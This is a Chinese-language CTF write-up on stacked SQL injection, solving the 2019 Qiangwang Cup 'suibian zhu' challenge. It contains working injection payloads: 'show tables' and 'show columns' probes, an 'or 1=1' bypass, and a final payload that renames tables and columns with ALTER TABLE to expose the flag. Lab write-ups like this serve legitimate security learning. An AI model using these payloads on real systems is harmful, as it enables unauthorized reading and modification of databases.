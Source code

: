 原理就是mysql_multi_query() 支持多条sql语句同时执行，用;分隔，成堆的执行sql语句。

比如

```
select databse();select * from users;
```

在权限足够的情况下甚至可以对数据库进行增删改查。但是堆叠注入的限制是很大的。但是与union联合执行不同的是它可以同时执行无数条语句而且是任何sql语句。而union执行的语句是有限的。

[强网杯 2019\]随便注

判断完注入类型后尝试联合注入，发现select被过滤，且正则不区分大小写过滤。

![image-20210812181819109](https://www.hualigs.cn/image/6115333321ab2.jpg)

那么就用堆叠注入，使用show就可以不用select了。

<img src="https://www.hualigs.cn/image/61153336dd856.jpg" alt="image-20210812182108228" style="zoom: 50%;" />

接下去获取表信息和字段信息

```
1';show tables;#
```

<img src="https://www.hualigs.cn/image/611533301d2fb.jpg" alt="image-20210812182108228" style="zoom: 50%;" />

那一串数字十分可疑大概率flag就在里面，查看一下

```
1';show columns from `1919810931114514`;#
```

这里的表名要加上反单引号，是数据库的引用符。

![image-20210812182714535](https://www.hualigs.cn/image/6115332dbb0d5.jpg)

发现flag，但是没办法直接读取。再读取words，发现里面有个id字段，猜测数据库语句为

```
select * from words where id = '';
```

结合1'or 1=1#可以读取全部数据可以利用改名的方法把修改1919810931114514为words，flag修改为id，就可以把flag读取了。

最终payload：

```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag(被修改的字段) id(修改成的字段名) varchar(50);
#
```

<img src="https://www.hualigs.cn/image/61153330235ae.jpg" alt="image-20210812183841779" style="zoom:67%;" />

# 不可回显注入
